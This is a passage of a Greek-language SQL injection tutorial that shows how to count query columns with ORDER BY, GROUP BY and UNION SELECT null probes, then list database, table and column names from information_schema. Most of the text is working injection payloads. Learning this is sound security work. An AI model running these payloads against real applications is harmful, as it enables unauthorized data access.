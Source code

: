 #### Order/Group by

Για να προσδιορίσετε τον αριθμό των στηλών σε ένα ερώτημα, προσαρμόστε σταδιακά τον αριθμό που χρησιμοποιείται στις ρήτρες **ORDER BY** ή **GROUP BY** μέχρι να λάβετε μια ψευδή απάντηση. Παρά τις διακριτές λειτουργίες των **GROUP BY** και **ORDER BY** μέσα στο SQL, και οι δύο μπορούν να χρησιμοποιηθούν με τον ίδιο τρόπο για να προσδιορίσουν τον αριθμό των στηλών του ερωτήματος.
```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```
#### UNION SELECT

Επιλέξτε όλο και περισσότερες τιμές null μέχρι να είναι σωστό το ερώτημα:
```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
_Πρέπει να χρησιμοποιείτε τιμές `null`, καθώς σε ορισμένες περιπτώσεις ο τύπος των στηλών και των δύο πλευρών του ερωτήματος πρέπει να είναι ο ίδιος και το null είναι έγκυρο σε κάθε περίπτωση._

### Εξαγωγή ονομάτων βάσεων δεδομένων, ονομάτων πινάκων και ονομάτων στηλών

Στα επόμενα παραδείγματα θα ανακτήσουμε το όνομα όλων των βάσεων δεδομένων, το όνομα του πίνακα μιας βάσης δεδομένων, τα ονόματα των στηλών του πίνακα:
```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
_Υπάρχει ένας διαφορετικός τρόπος για να ανακαλύψετε αυτά τα δεδομένα σε κάθε διαφορετική βάση δεδομένων, αλλά η μεθοδολογία είναι πάντα η ίδια._

## Εκμετάλλευση Κρυφών Union Based

